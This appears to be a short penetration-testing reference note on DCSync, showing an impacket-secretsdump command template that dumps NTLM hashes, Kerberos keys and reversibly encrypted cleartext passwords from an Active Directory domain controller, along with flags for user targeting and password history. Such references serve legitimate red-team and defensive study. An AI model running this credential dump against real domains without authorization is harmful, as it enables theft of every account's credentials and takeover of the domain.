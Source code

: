 ```yaml
---
tags:
  - linux
  - dcsync
---
```

```shell-session
$ impacket-secretsdump -outputfile <OUTPUT> -just-dc <DOMAIN>/<USER>@<DC-IP>
```
>The `<USER>` should have `DS-Replication-Get-Changes-All` permission assigned

This generates three files:
1. File with NTLM hashes
2. File with Kerberos Keys
3. Cleartext passwords from the NTDS if any account is set with [reversible encryption](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/store-passwords-using-reversible-encryption) enabled.
# Useful Flags
- `-just-dc`: extracts NTLM hashes and Kerberos keys from the NTDS file
- `-just-dc-user`: to only extract data for a specific user
- `-pwd-last-set`: check last password change date
- `-history`: dump password history
- `-user-status`: to check whether a user is disabled or not

